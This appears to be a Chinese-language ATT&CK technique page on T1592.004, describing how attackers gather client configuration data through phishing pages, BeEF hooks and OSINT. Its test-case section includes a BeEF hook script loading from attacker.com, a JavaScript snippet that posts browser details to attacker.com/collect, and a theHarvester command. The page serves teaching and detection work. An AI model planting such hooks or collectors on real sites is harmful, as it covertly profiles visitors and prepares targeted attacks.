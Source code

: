 # T1592.004-收集目标组织主机信息-客户端配置

## 描述
攻击者在入侵目标组织之前，可能收集目标客户端设备的配置信息，以支持目标定位和攻击规划。客户端配置信息包括操作系统类型/版本、虚拟化环境、体系结构（32位或64位）、语言设置、时区、浏览器类型/版本、User-Agent字符串或其他环境变量。这些信息可帮助攻击者了解目标设备的技术环境，识别潜在漏洞或定制攻击payload。

攻击者可能通过以下方式收集客户端配置信息：
- **主动扫描**：通过网络嗅探或Banner抓取获取User-Agent、操作系统或浏览器信息。
- **钓鱼攻击**：通过恶意网页或邮件诱导用户访问，运行脚本（如JavaScript）收集客户端配置。
- **恶意代码植入**：在受损网站植入恶意脚本（如BeEF框架），捕获访问者的设备信息。
- **公开信息搜刮**：分析公开数据（如职位发布、泄露文档、社交媒体）推测客户端配置。
- **社会工程**：伪装成合法实体，诱导员工泄露设备配置或管理凭据。

收集到的信息可能为后续攻击活动做准备，例如搜索开放网站/域（T1593）、搜索公开技术数据库（T1596）、建立运营资源（T1583/T1584）或通过供应链攻击（T1195）或外部远程服务（T1133）实现初始访问。

## 测试案例
以下是模拟攻击者收集客户端配置信息的常见方法和工具：
- **BeEF（Browser Exploitation Framework）** (<https://beefproject.com>):
  - 用于通过浏览器漏洞收集客户端信息（如操作系统、浏览器版本、插件）。
  - 示例：设置钓鱼页面，诱导用户访问并运行BeEF脚本。
    ```html
    <script src="http://attacker.com:3000/hook.js"></script>
    ```
- **JavaScript信息收集**：
  - 嵌入恶意JavaScript代码，收集User-Agent、语言、时区等信息。
    ```javascript
    var info = {
        userAgent: navigator.userAgent,
        platform: navigator.platform,
        language: navigator.language,
        screen: screen.width + "x" + screen.height
    };
    fetch('http://attacker.com/collect', {
        method: 'POST',
        body: JSON.stringify(info)
    });
    ```
- **钓鱼页面**：
  - 创建伪装的登录页面，诱导用户访问并收集客户端信息。
  - 示例：伪装成公司内部门户，嵌入BeEF或自定义脚本。
- **公开信息搜刮**：
  - 使用OSINT工具（如theHarvester）从社交媒体或公开文档提取员工设备信息。
    ```bash
    theharvester -d target.com -b linkedin -l 100 -f output.html
    ```
- **案例场景**：
  - 攻击者通过钓鱼邮件诱导员工访问包含BeEF脚本的页面，收集浏览器版本和操作系统信息，定制针对性漏洞利用。
  - 使用JavaScript脚本从目标网站访客中提取User-Agent，推测目标组织使用的Windows版本。
  - 参考案例：<https://www.kancloud.cn/wintry/p-tools/598539>，通过BeEF收集客户端配置并发起后续攻击。
